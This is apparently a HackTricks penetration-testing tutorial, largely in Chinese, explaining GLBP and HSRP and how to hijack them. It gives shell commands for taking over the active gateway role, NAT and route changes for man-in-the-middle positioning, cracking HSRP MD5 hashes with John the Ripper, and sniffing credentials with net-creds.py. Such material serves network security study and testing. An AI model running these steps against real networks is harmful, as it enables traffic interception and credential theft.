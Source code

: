 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

FHRP旨在通过将多个路由器合并为一个虚拟单元来提供网络的鲁棒性，从而增强负载分配和容错能力。思科系统公司在这一套协议中引入了GLBP和HSRP等重要协议。

### GLBP Protocol Insights

思科创建的GLBP在TCP/IP协议栈上运行，使用UDP在3222端口进行通信。GLBP组中的路由器每3秒交换一次“hello”数据包。如果路由器在10秒内未发送这些数据包，则被认为是离线的。然而，这些定时器并不是固定的，可以进行修改。

### GLBP Operations and Load Distribution

GLBP的特点是通过使用单个虚拟IP和多个虚拟MAC地址在路由器之间实现负载分配。在GLBP组中，每个路由器都参与数据包转发。与HSRP/VRRP不同，GLBP通过多种机制提供真正的负载均衡：

- **Host-Dependent Load Balancing:** 为主机保持一致的AVF MAC地址分配，这对稳定的NAT配置至关重要。
- **Round-Robin Load Balancing:** 默认方法，在请求主机之间交替分配AVF MAC地址。
- **Weighted Round-Robin Load Balancing:** 根据预定义的“权重”指标分配负载。

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** 主要路由器，负责将MAC地址分配给对等路由器。
- **AVF (Active Virtual Forwarder):** 指定管理网络流量的路由器。
- **GLBP Priority:** 决定AVG的指标，默认值为100，范围在1到255之间。
- **GLBP Weight:** 反映路由器的当前负载，可以手动或通过对象跟踪进行调整。
- **GLBP Virtual IP Address:** 作为所有连接设备的网络默认网关。

对于交互，GLBP使用保留的组播地址224.0.0.102和UDP端口3222。路由器每3秒发送一次“hello”数据包，如果在10秒内错过一个数据包，则被视为非操作状态。

### GLBP Attack Mechanism

攻击者可以通过发送优先级值最高（255）的GLBP数据包成为主路由器。这可能导致DoS或MITM攻击，从而允许流量拦截或重定向。

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali)可以通过注入优先级和权重设置为255的数据包来执行GLBP攻击。攻击前的步骤包括使用Wireshark等工具收集虚拟IP地址、身份验证存在性和路由器优先级值等信息。

攻击步骤：

1. 切换到混杂模式并启用IP转发。
2. 确定目标路由器并获取其IP。
3. 生成一个无偿ARP。
4. 注入一个恶意GLBP数据包，冒充AVG。
5. 为攻击者的网络接口分配一个次要IP地址，镜像GLBP虚拟IP。
6. 实施SNAT以实现完整的流量可见性。
7. 调整路由以确保通过原始AVG路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

为了演示，以下是所需的命令片段：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
监控和拦截流量可以使用 net-creds.py 或类似工具来捕获和分析流经被攻陷网络的数据。

### HSRP 劫持的被动解释与命令细节

#### HSRP（热备份路由器/冗余协议）概述

HSRP 是一种思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为一个共享 IP 地址的单一逻辑单元。该逻辑单元由一个主要路由器管理，负责流量的引导。与使用优先级和权重进行负载均衡的 GLBP 不同，HSRP 依赖于单个活动路由器进行流量管理。

#### HSRP 中的角色和术语

- **HSRP 活动路由器**：作为网关的设备，管理流量流动。
- **HSRP 备用路由器**：准备接管活动路由器故障时的备份路由器。
- **HSRP 组**：一组路由器协作形成一个单一的弹性虚拟路由器。
- **HSRP MAC 地址**：在 HSRP 设置中分配给逻辑路由器的虚拟 MAC 地址。
- **HSRP 虚拟 IP 地址**：HSRP 组的虚拟 IP 地址，作为连接设备的默认网关。

#### HSRP 版本

HSRP 有两个版本，HSRPv1 和 HSRPv2，主要在组容量、多播 IP 使用和虚拟 MAC 地址结构上有所不同。该协议利用特定的多播 IP 地址进行服务信息交换，每 3 秒发送一次 Hello 数据包。如果在 10 秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP 攻击机制

HSRP 攻击涉及通过注入最大优先级值强行接管活动路由器的角色。这可能导致中间人（MITM）攻击。攻击前的基本步骤包括收集有关 HSRP 设置的数据，可以使用 Wireshark 进行流量分析。

#### 绕过 HSRP 身份验证的步骤

1. 将包含 HSRP 数据的网络流量保存为 .pcap 文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用 hsrp2john.py 从 .pcap 文件中提取 MD5 哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用 John the Ripper 破解 MD5 哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用 Loki 执行 HSRP 注入**

1. 启动 Loki 以识别 HSRP 广告。
2. 将网络接口设置为混杂模式并启用 IP 转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用 Loki 针对特定路由器，输入破解的 HSRP 密码，并执行必要的配置以冒充活动路由器。
4. 在获得活动路由器角色后，配置您的网络接口和 IP 表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过前活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用 net-creds.py 或类似工具从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤使攻击者能够拦截和操纵流量，类似于 GLBP 劫持的过程。这突显了 HSRP 等冗余协议的脆弱性以及对强大安全措施的需求。

## 参考文献

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
